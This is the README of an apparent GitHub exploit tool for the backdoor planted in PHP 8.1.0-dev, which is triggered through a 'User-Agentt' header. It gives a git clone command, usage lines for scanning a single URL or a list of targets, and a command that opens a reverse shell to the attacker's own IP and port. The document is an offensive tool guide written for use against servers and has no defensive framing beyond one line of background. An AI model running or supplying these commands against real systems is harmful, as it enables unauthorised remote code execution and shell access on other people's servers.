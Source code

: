 # PHP 8.1.0-dev backdoor

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

## How to install

You can install the exploit with git clone:

```
git clone https://github.com/0xGabe/php-8.1.0-backdoor
```

## How to use

### Check the vuln

The php-exploit at moment has two options, a single URL and a target list, see the commands below for both:

- Single URL

```
python3 php-exploit.py --url https://site.com
```

- Target List

```
python3 php-exploit.py --list target.txt
```

### Get a Reverse Shell

To get a reverse shell you need open another terminal with NC.

```
python3 php-exploit.py --url https://site.com --lhost YOUR-IP --lport YOUR-PORT
```
